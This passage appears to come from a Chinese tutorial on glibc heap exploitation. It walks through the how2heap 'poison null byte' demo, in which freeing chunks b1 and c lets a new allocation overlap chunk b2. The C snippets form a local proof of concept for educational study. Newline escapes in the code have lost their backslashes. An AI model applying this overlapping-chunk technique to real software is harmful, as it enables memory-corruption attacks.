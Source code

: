 ```

    memset(b2,'B',0x80);
    fprintf(stderr, "Current b2 content:n%sn",b2);

    fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').n");

    free(b1);
    free(c);

    fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.n");
    d = malloc(0x300);
    fprintf(stderr, "d: %pn",d);

    fprintf(stderr, "Now 'd' and 'b2' overlap.n");
    memset(d,'D',0x300);

    fprintf(stderr, "New b2 content:n%sn",b2);

    fprintf(stderr, "Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunks"
        "for the clear explanation of this technique.n");
`}`
```

首先，为chunk_a申请0x100字节的堆空间。

这里需要注意，用malloc_usable_size获取chunk_a的真实大小。原因是malloc时会自动8位对齐，实际申请的空间应该是略大于0x100.

```
fprintf(stderr, "We allocate 0x100 bytes for 'a'.n");
    a = (uint8_t*) malloc(0x100);
    fprintf(stderr, "a: %pn", a);
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "Since we want to overflow 'a', we need to know the 'real' size of 'a' "
        "(it may be more than 0x100 because of rounding): %#xn", real_a_size);
```

继续申请内存,barrier部分作为隔离chunk_c和top chunk的部分，防止chunk_c被free时被top chunk合并，这点我们之前也提到过很多次。

```
/* chunk size attribute cannot have a least significant byte with a value of 0x00.
     * the least significant byte of this will be 0x10, because the size of the chunk includes
     * the amount requested plus some amount required for the metadata. */
    b = (uint8_t*) malloc(0x200);

    fprintf(stderr, "b: %pn", b);

    c = (uint8_t*) malloc(0x100);
    fprintf(stderr, "c: %pn", c);

    barrier =  malloc(0x100);
    fprintf(stderr, "We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.n"
        "The barrier is not strictly necessary, but makes things less confusingn", barrier);
```
